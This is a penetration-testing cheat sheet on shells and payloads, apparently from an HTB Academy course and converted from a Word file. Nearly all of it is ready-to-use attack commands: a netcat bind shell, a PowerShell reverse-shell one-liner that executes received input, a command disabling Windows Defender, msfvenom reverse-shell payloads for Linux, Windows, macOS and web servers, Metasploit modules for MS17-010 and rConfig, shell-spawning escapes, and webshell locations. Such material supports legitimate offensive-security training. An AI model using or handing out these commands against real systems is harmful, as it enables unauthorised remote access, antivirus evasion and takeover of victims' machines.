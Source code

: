 ﻿**SHELLS & PAYLOADS![](Aspose.Words.8730cc63-8c46-43f6-ac81-1e542b3e93c6.001.png)**

CHEAT SHEET

**Commands Description**

**xfreerdp /v:10.129.x.x /u:htb-student /p:HTB\_@cademy\_stdnt!** CLI-based

tool used to connect to a Windows target using the Remote Desktop Protocol

**env** Works with

many different command language interpreters to discover the environmental variables of a system. This is a great way to find out which shell language is in use



|**sudo nc -lvnp <port #>**|<p>Starts a **netcat**</p><p>listener on a specified port</p>|
| - | :- |
|**nc -nv <ip address of computer with listener started><port being listened on>**|Connects to a netcat listener at the specified IP address and port|

**Commands Description**

**rm -f /tmp/f; mkfifo /tmp/f; cat /tmp/f | /bin/bash -i 2>&1 | nc -l 10.129.41.200 7777 > /tmp/f** Uses netcat![](Aspose.Words.8730cc63-8c46-43f6-ac81-1e542b3e93c6.002.png)

to bind a shell (**/bin/bash**)

the specified IP address and port. This allows for a shell session to be served remotely to anyone connecting to the computer this command has been issued on

**powershell -nop -c "$client = New-Object System.Net.Sockets.TCPClient('10.10.14.158',443);$stream = $client.GetStream(); Powershell [byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName** one-liner **System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS** used to

**' + (pwd).Path + '> ';$sendbyte =** connect back **([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()"**

to a listener that has been started on an attack box



|**Set-MpPreference -DisableRealtimeMonitoring $true**|<p>Powershell command using to disable real time monitoring in **Windows**</p><p>**Defender**</p>|
| - | :- |
|**use exploit/windows/smb/psexec**|<p>Metasploit exploit module that can be used</p><p>on vulnerable Windows system to establish a shell session utilizing **smb** & **psexec**</p>|



|**shell**|Command used in a meterpreter shell session to drop into a **system shell**|
| - | :- |
|**msfvenom -p linux/x64/shell\_reverse\_tcp LHOST=10.10.14.113 LPORT=443 -f elf > nameoffile.elf**|<p>**MSFvenom**</p><p>command used to generate a linux-based reverse shell **stageless**</p><p>**payload**</p>|

**msfvenom -p windows/shell\_reverse\_tcp LHOST=10.10.14.113 LPORT=443 -f exe > nameoffile.exe** MSFvenom![](Aspose.Words.8730cc63-8c46-43f6-ac81-1e542b3e93c6.003.png)

command used to generate a Windows- based reverse shell stageless payload

**msfvenom -p osx/x86/shell\_reverse\_tcp LHOST=10.10.14.113 LPORT=443 -f macho > nameoffile.macho** MSFvenom

command used to generate a MacOS- based reverse shell payload



|**msfvenom -p windows/meterpreter/reverse\_tcp LHOST=10.10.14.113 LPORT=443 -f asp > nameoffile.asp**|MSFvenom command used to generate a ASP web reverse shell payload|
| - | :- |
|**msfvenom -p java/jsp\_shell\_reverse\_tcp LHOST=10.10.14.113 LPORT=443 -f raw > nameoffile.jsp**|MSFvenom command used to generate a JSP web reverse shell payload|



|**msfvenom -p java/jsp\_shell\_reverse\_tcp LHOST=10.10.14.113 LPORT=443 -f war > nameoffile.war**|MSFvenom command used to generate a WAR java/jsp compatible web reverse shell payload|
| - | :- |
|**use auxiliary/scanner/smb/smb\_ms17\_010**|Metasploit exploit module used to check if a host is vulnerable to **ms17\_010**|

**use exploit/windows/smb/ms17\_010\_psexec** Metasploit![](Aspose.Words.8730cc63-8c46-43f6-ac81-1e542b3e93c6.004.png)

exploit module used to gain a reverse shell session on a Windows- based system that is vulnerable to ms17\_010

**use exploit/linux/http/rconfig\_vendors\_auth\_file\_upload\_rce** Metasploit

exploit module that can be used to optain a reverse shell on a vulnerable linux system hosting **rConfig**

**3.9.6**



|**python -c 'import pty; pty.spawn("/bin/sh")'**|Python command used to spawn an **interactive shell** on a linux-based system|
| - | :- |
|**/bin/sh -i**|Spawns an interactive shell on a linux-based system|



|**perl —e 'exec "/bin/sh";'**|Uses **perl** to spawn an interactive shell on a linux-based system|
| - | :- |
|**ruby: exec "/bin/sh"**|Uses **ruby** to spawn an interactive shell on a linux-based system|

**Lua: os.execute('/bin/sh')** Uses **Lua** to

spawn an interactive shell on a linux-based system


|**Commands**|**Description**|
| - | - |
|**awk 'BEGIN {system("/bin/sh")}'**|Uses **awk** command to spawn an interactive shell on a linux-based system|



|**find / -name nameoffile 'exec /bin/awk 'BEGIN {system("/bin/sh")}' \;**|Uses **find** command to spawn an interactive shell on a linux-based system|
| - | :- |
|**find . -exec /bin/sh \; -quit**|An alternative way to use the **find** command to spawn an interactive shell on a linux-based system|



|**vim -c ':!/bin/sh'**|Uses the text- editor  **VIM** to spawn an interactive shell. Can be used to escape "jail- shells"|
| - | :- |
|**ls -la <path/to/fileorbinary>**|Used to **list** files & directories on a linux-based system and shows the permission for each file in the chosen directory. Can be used to look for binaries that we have permission to execute|

**sudo -l** Displays the![](Aspose.Words.8730cc63-8c46-43f6-ac81-1e542b3e93c6.005.png)

commands that the currently logged on user can run as **sudo**

|**Commands**|**Description**|
| - | - |
|**/usr/share/webshells/laudanum**|Location of **laudanum webshells** on ParrotOS and Pwnbox|

**/usr/share/nishang/Antak-WebShell** Location of![](Aspose.Words.8730cc63-8c46-43f6-ac81-1e542b3e93c6.006.png)

**Antak- Webshell** on

Parrot OS and Pwnbox

